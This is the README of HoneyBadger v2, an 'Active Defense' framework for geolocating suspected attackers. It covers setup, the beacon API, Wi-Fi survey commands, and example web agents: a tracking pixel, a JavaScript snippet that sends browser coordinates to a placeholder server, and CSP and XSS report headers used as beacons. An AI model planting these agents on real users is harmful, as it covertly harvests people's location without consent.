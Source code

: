 # HoneyBadger v2

HoneyBadger is a framework for targeted geolocation. While honeypots are traditionally used to passively detect malicious actors, HoneyBadger is an Active Defense tool to determine who the malicious actor is and where they are located. HoneyBadger leverages "agents" built in various technologies that harvest the requisite information from the target host in order to geolocate them. These agents report back to the HoneyBadger API, where the data is stored and made available in the HoneyBadger user interface.

An early prototype of HoneyBadger (v1) can be seen in the presentation "[Hide and Seek: Post-Exploitation Style](http://youtu.be/VJTrRMqHU5U)" from ShmooCon 2013. The associated Metasploit Framework modules mentioned in the above presentation can be found [here](https://github.com/v10l3nt/metasploit-framework/tree/master/modules/auxiliary/badger). Note: These modules have not been updated to work with v2 of the API.

## Getting Started

### Pre-requisites

* Python 2.x

### Installation (Ubuntu and OS X)

1. Install [pip](https://pip.pypa.io/en/stable/installing/).
2. Clone the HoneyBadger repository.

    ```
    $ git clone https://github.com/lanmaster53/honeybadger.git
    ```

3. Install the dependencies.

    ```
    $ cd honeybadger/server
    $ pip install -r requirements.txt
    ```

4. Initialize the database. The provided username and password will become the administrator account.

    ```
    $ python
    >>> import honeybadger
    >>> honeybadger.initdb(<username>, <password>)
    ```

5. Start the HoneyBadger server.

    ```
    $ python ./honeybadger.py
    ```

6. Visit the application and authenticate.
7. Add users and targets as needed using their respective pages.
8. Deploy agents for the desired target.

Clicking the "demo" button next to any of the targets will launch a demo web page containing an `HTML`, `JavaScript`, and `Applet` agent for that target.

### Fresh Start

Make a mess and want to start over fresh? Do this.

```
$ python
>>> import honeybadger
>>> honeybadger.dropdb()
>>> honeybadger.initdb(<username>, <password>)
```

## API Usage

### IP Geolocation

This method geolocates the target based on the source IP of the request and assigns the resolved location to the given target and agent.

Example: (Method: `GET`)

```
http://<path:honeybadger>/api/beacon/<guid:target>/<string:agent>
```

### Known Coordinates

This method accepts previously resolved location data for the given target and agent.

Example: (Method: `GET`)

```
http://<path:honeybadger>/api/beacon/<guid:target>/<string:agent>?lat=<float:latitude>&lng=<float:longitude>&acc=<integer:accuracy>
```

### Wireless Survey

This method accepts wireless survey data and parses the information on the server-side, extracting what is needed to make a Google API geolocation call. The resolved geolocation data is then assigned to the given target. Parsers currently exist for survey data from Windows, Linux and OS X using the following commands:

Windows:

```
cmd.exe /c netsh wlan show networks mode=bssid | findstr "SSID Signal Channel"
```

Linux:

```
/bin/sh -c iwlist scan | egrep 'Address|ESSID|Signal'
```

OS X:

```
/System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport -s
```

Example: (Method: `POST`)

```
http://<path:honeybadger>/api/beacon/<guid:target>/<string:agent>
```

POST Payload:

```
os=<string:operating-system>&data=<base64:data>
```

The `os` parameter must match one of the following regular expressions:

* `re.search('^mac os x', os.lower())`
* `re.search('^windows', os.lower())`
* `re.search('^linux', os.lower())`

### Universal Parameters

All requests can include an optional `comment` parameter. This parameter is sanitized and displayed within the UI as miscellaneous information about the target or agent.

## Example Web Agents

### HTML

```
img = new Image();
img.src = "http://<path:honeybadger>/api/beacon/<guid:target>/HTML";
```

or

```
<img src="http://<path:honeybadger>/api/beacon/<guid:target>/HTML" width=1 height=1 />
```

### JavaScript

Note: JavaScript (HTML5) geolocation agents will not work unless deployed in a secure context (HTTPS), or local host.

```
function showPosition(position) {
    img = new Image();
    img.src = "http://<path:honeybadger>/api/beacon/<guid:target>/JavaScript?lat=" + position.coords.latitude + "&lng=" + position.coords.longitude + "&acc=" + position.coords.accuracy;
}

if (navigator.geolocation) {
    navigator.geolocation.getCurrentPosition(showPosition);
}
```

### Content Security Policy

```
response.headers['X-XSS-Protection'] = '0'
response.headers['Content-Security-Policy-Report-Only'] = '<string:policy>; report-uri http://<path:honeybadger>/api/beacon/<guid:target>/Content-Security-Policy'
```

### XSS Auditor

```
response.headers['X-XSS-Protection'] = '1; report=http://<path:honeybadger>/api/beacon/<guid:target>/XSS-Protection'
```
